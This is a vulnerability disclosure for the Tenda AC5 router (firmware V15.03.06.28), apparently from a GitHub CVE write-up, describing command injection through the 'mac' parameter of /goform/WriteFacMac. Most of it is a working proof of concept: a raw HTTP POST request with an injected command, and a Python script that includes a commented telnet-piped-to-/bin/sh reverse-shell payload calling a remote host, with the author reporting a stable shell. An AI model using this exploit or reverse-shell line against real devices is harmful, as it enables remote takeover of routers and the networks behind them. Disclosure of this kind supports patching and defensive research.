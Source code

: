 ## Basic Information

Vendor:Tenda (https://www.tenda.com.cn/default.html)

product:AC5(https://www.tenda.com.cn/product/AC5.html)

version:V15.03.06.28(https://www.tenda.com.cn/download/detail-2740.html) 

type:Arbitrary Remote Command Execution 

author:yanbushuan

## Vulnerability description and trigger location

I found an Arbitrary Command Execution vulnerability in the router's web server-- /bin/httpd of squashfs filesystem. While processing the mac parameters for a post request(when an attacker accesses ip/goform/WriteFacMac), the value is directly passed to doSystem, which causes a RCE. The details are shown below:

![image1](https://github.com/yanbushuang/CVE/blob/main/image-1.png)


![image2](https://github.com/yanbushuang/CVE/blob/main/image-2.png)

## POC(EXP):
```
### Burpsuite：

POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.0.1（You Tenda AC5 Router IP or remote ip）
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=You cookie
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
mac = ;command


### python request/pwn：

import requests
from pwn import*

ip = "192.168.211.128" #You Tenda AC5 Router IP or remote ip
url = "http://" + ip + "/goform/WriteFacMac"
print(url)


#payload = ";cmd"
#payload = ";telnet remote_ip remote_port1 | /bin/sh | telnet remote_ip remote_port2"

cookie = {"Cookie":"password=12345"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")

```

## Attack demonstration：

Use the above POC to play shell through telnet You can get a very stable shell 


![image3](https://github.com/yanbushuang/CVE/blob/main/image-3.png)


![image4](https://github.com/yanbushuang/CVE/blob/main/image-4.png)

Over~
